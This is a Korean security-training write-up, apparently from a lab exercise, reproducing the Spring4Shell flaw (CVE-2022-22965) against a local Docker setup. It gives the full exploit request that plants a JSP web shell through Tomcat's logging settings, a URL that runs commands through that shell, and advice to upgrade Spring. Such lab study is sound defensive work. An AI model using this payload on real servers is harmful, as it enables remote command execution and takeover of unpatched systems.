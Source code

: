 # Spring Framework Data Binding Remote Code Execution on JDK 9+ (CVE-2022-22965)

> 화이트햇 스쿨 3기 - [이호영 (@lhywk)](https://github.com/lhywk)

<br/>

### 요약

- `Spring Framework`의 `Data Binding` 기능을 악용하면 RCE가 가능함  
- 특정 HTTP 파라미터를 조작하여 공격자가 임의의 `.jsp` 웹쉘을 서버에 업로드할 수 있음  
- 업로드된 웹쉘을 통해 서버 내부 명령어 실행 및 시스템 권한 탈취 시도가 가능함  
- 해당 취약점은 `Spring Framework 5.3.17` 및 `JDK 9+` 환경에서 발생

<br/>

### 환경 구성

- `docker-compose up -d` 명령어로 테스트 환경 실행  
- `http://localhost:8080/` 접속하여 Spring 앱 정상 동작 확인

<br/>

### 취약점 재현

Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보낸다.
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```
![PoC Upload](./poc.png)

그런 다음 JSP 웹쉘을 사용하여 임의의 명령을 실행할 수 있다.

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

<br/>


### 결과

![result1 Upload](./result1.png)
![result1 Upload](./result2.png)

JSP 웹셸이 계속 커지는 것을 방지하기 위해 class.module.classLoader.resources.context.parent.pipeline.first.pattern 속성을 초기화
```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

<br/>


### 정리

해당 취약점은 Spring Framework의 데이터 바인딩 기능을 악용해 RCE가 가능하게 한다. 해당 취약점은 시스템 권한 탈취로 이어질 수 있어 매우 위험하다.
가장 확실한 대응책은 최신 버전인 Srping 5.3.18 이상으로 업데이트 하는 것이다.
